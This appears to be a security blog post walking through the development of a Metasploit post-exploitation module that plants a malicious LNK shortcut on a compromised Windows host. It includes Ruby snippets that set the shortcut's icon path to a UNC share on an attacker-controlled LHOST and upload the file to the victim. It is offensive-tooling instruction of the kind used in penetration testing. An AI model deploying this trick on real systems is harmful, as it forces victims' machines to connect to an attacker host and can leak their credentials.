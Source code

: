 = Developing the LNK Metasploit post module with Mona
:hp-tags: lnk, metasploit, mona

I have been using the LNK trick I talked about in my [last post](/blog/2012/02/11/ms08_068-ms10_046-fun-until-2018) for a while, but always needing a Windows machine to create the LNK file. When I decided to write a post about it, I wanted to put the stipulation for myself that I would finally develop a way to get it done with out having to lug around a VM or spin one up every time I needed to change it's target.

Of course the first place I looked was Meterpreter's Railgun (direct windows API calling within meterpreter). But to do it with Railgun I would have to develop a way to [work with COM objects](http://msdn.microsoft.com/en-us/library/aa969393.aspx). Something that I don’t believe is built into Railgun (yet… /me nudges chao-mu). The second place I looked was to see if I could just build an LNK file from scratch [using the spec](http://msdn.microsoft.com/en-us/library/dd871305(PROT.10).aspx).. ya…. that didn’t go so..*zzzZZZzzzzzzzZzzz

Enter [mona](http://redmine.corelan.be/projects/mona), the [Corelan Team’s](http://www.corelan.be/) exploit development plugin for [Immunity Debugger](http://immunityinc.com/products-immdbg.shtml). Now, usually it is used exactly as intended, as an exploit development tool, and I guess you could consider my use of it as an extension of that as well. But, anyways, one of Mona’s many and probably one of the least well known functions is ‘header’. What this function does is simply output a ruby version of the file broken into ASCII and binary parts. That’ll make much more sense in a sec, back to the problem. I need to recreate a file in a way I can manipulate it on the fly with enough agility to be useful to others in a post module without using the spec or Railgun to assist.

We start off with the maliciously altered LNK file, and an up to date version of Immunity and mona:

![](/images/postimages/201202_mona_1.png)

I copied the shortcut file to the C drive so I didn’t have to specify a huge path in the mona command, and issued:

`“!mona header C:\autoexec.lnk”`

![](/images/postimages/201202_mona_2.png)

As you can see, mona breaks up the binary into ‘understandable’ portions, so if it sees a string is keeps it together, if it sees unicode, it actually uses the Rex ruby libraries. You can try it yourself and scroll through the results but when I saw:

```ruby
header << Rex::Text.to_unicode("C:\%\\\\192.168.100.100\\w00t\\bogusimage.png`")
```

I knew I was golden. Quick note: pay close attention when you edit the output of this command in a text editor, initially I didn’t notice the ‘tick’ ( ` ) at the end of the share string and it cause me a lot of grief.

Cool, so I have a bit of ruby that puts the contents of my LNK file into a ruby variable. Now what?

Now I have 3 challenges:

1. It needs to have a user defined target IP at the very least and anything else I work into a variable option for the user.
2. It needs to upload the file to the exploited system.
3. It needs to be up to code on the Metasploit coding standards

Changing the line I found for the share name into this:


```ruby
lnk << Rex::Text.to_unicode("\\\\#{datastore['LHOST']}\\#{datastore['SHARENAME']}\\#{datastore['ICONFILENAME']}`")
```

‘datastore’ is used as the container for variable set by default or by the user using the module. Adding those option for the user is pretty easy. You just add the following to the ‘register_options’ section of your module:


```ruby
OptAddressRange.new("LHOST", [ true, "Host listening for incoming SMB/WebDAV traffic", nil]),
OptString.new("SHARENAME", [ true, "Share name on LHOST", "share1"]),       
OptString.new("ICONFILENAME", [ true, "File name on LHOST's share", "icon.png"])
```

OptAddressRange is used instead of a string because it has a bit of validation that you are actually using something that either resembles an IP address or a hostname.

Problem 1 solved. Problem 2 was just as easy, the following line:

```
file = client.fs.file.new(datastore['LNKFILENAME'], 'wb')
```

creates a new file on the victim, and ‘file.write(lnk)’ writes the binary contents of the ‘lnk’ variable into it.

Problem 3 is much more tricky, but here is the path to wisdom:

```
ruby /metasploit-directory/tools/msftidy.rb /path/to/my/module/evil.rb
```

Hope this helps spur people into trying their hand at developing some modules of their own.
